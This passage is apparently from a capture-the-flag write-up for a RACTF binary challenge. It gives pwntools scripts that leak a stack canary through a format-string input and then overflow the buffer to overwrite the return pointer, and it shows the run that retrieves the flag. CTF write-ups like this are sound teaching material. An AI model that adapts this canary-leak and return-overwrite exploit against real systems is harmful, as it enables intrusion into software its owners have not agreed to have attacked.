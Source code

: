 ```python

payload = b"a" * 25        # Padding
payload += p32(canary)        # Canary (p32 is basically struct.pack)
payload += b'bbbbccccdddd'    # More padding
payload += p32(0x080491d2)    # Return pointer

io.sendline(payload)    # Send payload
print(io.recvline().decode())    # Recieve flag
io.close()
```

Of course make a `flag.txt` to cat when testing locally

### Transfering to remote

The script for remote is very similiar to local, again using python3 with pwntools. This is my script:

```python
from pwn import *
import sys

args = sys.argv[1].split(":")
ip = args[0]
port = args[1]

io = remote(ip,port)

io.recvline()    # These recieve all the junk
io.recvline()
io.recvline()
io.recvline()

io.sendline("-%11$p-")            # Sends format string
recieved = io.recvline().decode().split("-")    # Leaks the canary, and recieves it
canary = int(recieved[1],16)        # Convert to hex number
log.info("Canary: " + str(hex(canary)))        # Print canary
io.recvline()    # More junk

payload = b"a" * 25        # Padding
payload += p32(canary)        # Canary (p32 is basically struct.pack)
payload += b'bbbbccccdddd'    # More padding
payload += p32(0x080491d2)    # Return pointer

io.sendline(payload)    # Send payload
print(io.recvline().decode())    # Recieve flag
io.close()
```

Now to run it:

```text
sasha@kali:~/RACTF$ python3 fiasremote.py 95.216.233.106:45124
[+] Opening connection to 95.216.233.106 on port 45124: Done
[*] Canary: 0x4c827a00
ractf{St4ck_C4n4ry_FuN!}

[*] Closed connection to 95.216.233.106 port 45124
sasha@kali:~/RACTF$
```

Challenge done!

**ractf{St4ck\_C4n4ry\_FuN!}**

